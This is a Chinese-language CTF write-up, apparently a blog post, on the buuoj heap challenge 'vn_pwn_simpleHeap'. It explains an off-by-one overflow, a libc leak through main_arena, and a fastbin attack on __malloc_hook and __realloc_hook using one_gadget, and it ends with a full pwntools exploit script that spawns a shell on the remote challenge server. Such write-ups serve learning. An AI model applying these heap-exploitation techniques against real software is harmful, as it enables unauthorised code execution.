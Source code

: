 ```yaml
---
toc: true
toc_sticky: true
title:  "Buuoj冲分过程-PWN/HEAP-vn_pwn_simpleHeap"
date:   2021-01-02 21:15:38 +0800
categories:
  - blog
  - pwn
  - glibc
  - heap
---
```


# Overview - 明けましておめでとうございます‼

sub_C39 函数有一个 off-by-one 漏洞，会从stdin读取、写入多一个字节。根据堆内存的chunk结构，我们可以覆盖下一个chunk `mchunk_size`的最后一个字节并修改chunk的大小，然后经分配得到重叠的chunk并泄露出 `main_arena.top` 的地址；进一步利用重叠的chunk修改 fastbin并在 main_arena 上方构造大小为0X7F的chunk，最终实现写入任意地址到 `__malloc_hook` 。

## Leak libc

0. 先使得大于 `global_max_fast` 的 chunk 覆盖另一个正在使用的小 chunk；
1. 释放大chunk ，使其进入 unsorted 并被写入 `main_arena.top`的地址；
2. 申请内存使得大chunk发生分裂，`main_arena.top` 的地址写入到小chunk；
3. 输出小chunk并泄露`main_arena.top`

## Gadget

```
ubuntu@VM-0-5-ubuntu:~/project/kayoch1n.github.io/buuoj$ one_gadget /lib/x86_64-linux-gnu/libc.so.6 0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL
```

## Issues

这道题不能把 gadget 直接写入到 `__malloc_hook`：在ubuntu16.04 x86_64 上调试发现，rsp+0x30，rsp+0x50，rsp+0x70处的值都不为0，栈的情况并不能满足任意一个 gadget 的要求；但是通过查阅谷歌了解到另一种方法，这种方法在构造chunk的时候，将 `__realloc_hook` 覆盖为 gadget 的地址，将 `__malloc_hook` 覆盖为一个在 `__libc_realloc` 内的地址 ；触发getshell的调用路径变为 `malloc`->`__libc_malloc`->`__malloc_hook`(address in `__libc_realloc`)->`__realloc_hook`(gadget)。这个方法通过增加调用过程（call压入RA以及function prologue）、加上 `__libc_realloc` 内的push等指令（见下）调整栈顶，使栈上的数据尽量满足gadget的要求。

```
(gdb) disas __libc_realloc
Dump of assembler code for function __GI___libc_realloc:
   0x00007f6b07bc7710 <+0>:     push   %r15       # 
   0x00007f6b07bc7712 <+2>:     push   %r14       #
   0x00007f6b07bc7714 <+4>:     push   %r13       #
   0x00007f6b07bc7716 <+6>:     push   %r12       #
   0x00007f6b07bc7718 <+8>:     mov    %rsi,%r12  #
   0x00007f6b07bc771b <+11>:    push   %rbp       #
   0x00007f6b07bc771c <+12>:    push   %rbx       #
   0x00007f6b07bc771d <+13>:    mov    %rdi,%rbx  #
   0x00007f6b07bc7720 <+16>:    sub    $0x38,%rsp # 以上指令调整栈顶
   0x00007f6b07bc7724 <+20>:    mov    0x33f8a5(%rip),%rax        # 0x7f6b07f06fd0
   0x00007f6b07bc772b <+27>:    mov    (%rax),%rax
   0x00007f6b07bc772e <+30>:    test   %rax,%rax
   0x00007f6b07bc7731 <+33>:    jne    0x7f6b07bc7958 <__GI___libc_realloc+584>
...
   0x00007f6b07bc7958 <+584>:   mov    0x68(%rsp),%rdx
   0x00007f6b07bc795d <+589>:   callq  *%rax      # 触发getshell
...
```

上述指令来自本地libc.so.6；事实上该指令片段和题目提供的libc-2.23.so的指令内容是一致的，只是偏移有差别。本地调试给 `__libc_realloc` 打上断点，检查此时栈顶的结构：

```
(gdb) x/32gx $rsp
0x7ffc3042aa68: 0x000055f11f8d3b71      0x000055f11f8d38e0 # sub    $0x38,%rsp 
0x7ffc3042aa78: 0x0000002000000006      0x00007ffc3042aaa0 #
0x7ffc3042aa88: 0x000055f11f8d3f86      0x00007ffc3042ab80 # 
0x7ffc3042aa98: 0x0000000100000000      0x000055f11f8d3fd0 #
0x7ffc3042aaa8: 0x00007f6b07b63840(rbx) 0x0000000000000000(rbp)
0x7ffc3042aab8: 0x00007ffc3042ab88(r12) 0x0000000108132ca0(r13)
0x7ffc3042aac8: 0x000055f11f8d3f0a(r14) 0x0000000000000000(r15)
0x7ffc3042aad8: 0x14df0f89e95ddc50      0x000055f11f8d38e0 
0x7ffc3042aae8: 0x00007ffc3042ab80      0x0000000000000000
0x7ffc3042aaf8: 0x0000000000000000      0x40c55016c39ddc50
0x7ffc3042ab08: 0x41eb3ffff90ddc50      0x0000000000000000
0x7ffc3042ab18: 0x0000000000000000      0x0000000000000000 # +0x50
0x7ffc3042ab28: 0x00007ffc3042ab98      0x00007f6b08134168 
0x7ffc3042ab38: 0x00007f6b07f1d80b      0x0000000000000000 # +0x70
0x7ffc3042ab48: 0x0000000000000000      0x000055f11f8d38e0
0x7ffc3042ab58: 0x00007ffc3042ab80      0x0000000000000000
```

如果使用 `__libc_realloc` 覆盖 `__malloc_hook`，同样无法满足任意一个gadget的要求；设想不借助push以及sub指令下的栈结构，rsp+0x50及rsp+0x70都可以满足；因此选择使用 0xf0364(0xf02a4) 作为gadget，用 __libc_realloc+20 处的地址覆盖 __malloc_hook。本地可以成功getshell，但是远程打不通；因此尝试调整gadget，选择使用 0xf1207(0xf1147)，ok，顺利打通。

## Payload

```python
#!/usr/bin/python3.6
from pwn import *

filename = './vn_pwn_simpleHeap'
# p = process(filename)
p = remote('node3.buuoj.cn', 25658)
# libc = ELF('/home/ubuntu/glibc-2.23/lib/libc-2.23.so')
libc = ELF('./libc/ubuntu_16_x86_64_libc-2.23.so')
# libc = ELF('/lib/x86_64-linux-gnu/libc.so.6')


def Add(content, size=None):
    p.sendlineafter(b'choice: ', b'1')
    p.sendlineafter(b'size?', bytes(f'{size or len(content)}', encoding='utf8'))
    p.sendlineafter(b'content:', content)


def Edit(index, content):
    p.sendlineafter(b'choice: ', b'2')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))
    p.sendlineafter(b'content:', content)


def Show(index):
    p.sendlineafter(b'choice: ', b'3')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))


def Delete(index):
    p.sendlineafter(b'choice: ', b'4')
    p.sendlineafter(b'idx?', bytes(f'{index}', encoding='utf8'))


def Exit():
    p.sendlineafter(b'choice: ', b'5')

Add(b'0', 0x28)   # 0
Add(b'1', 0x68)   # 1
Add(b'2', 0x68)   # 2
Add(b'3', 0x20)   # 3
payload = b'\x00'*0x28 +b'\xe1'
Edit(0,payload)   # 修改下一个chunk的大小
Delete(1)

Add(b'11', 0x68,)  # 1
Show(2)

leaked = u64(p.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))
main_arena = leaked - 88
realloc_hook = main_arena - 0x18
libc_base = realloc_hook - libc.sym['__realloc_hook']

# one_gadgets = [0xf0364]
one_gadgets = [0xf1147, 0xf02a4]

realloc = libc_base + libc.sym['realloc']
log.success(f'&main_arena: {hex(main_arena)}, &realloc_hook: {hex(realloc_hook)},&realloc: {hex(realloc)}, &libc_base: {hex(libc_base)}')

Add(b'i4and2infact', 0x60)  # 4 and 2
Delete(2)
fake_chunk = main_arena - 0x33
payload = p64(fake_chunk)
Edit(4, payload)
#p.interactive()
Add(b'5', 0x60)
gadget = one_gadgets[0]+libc_base
log.success(f'gadget: {hex(gadget)}')

Add(b'\x00' * 11 + p64(gadget) + p64(realloc+20), 0x60)

p.sendlineafter(b'choice: ', b'1')
p.sendlineafter(b'size?', b'32')
p.interactive()
```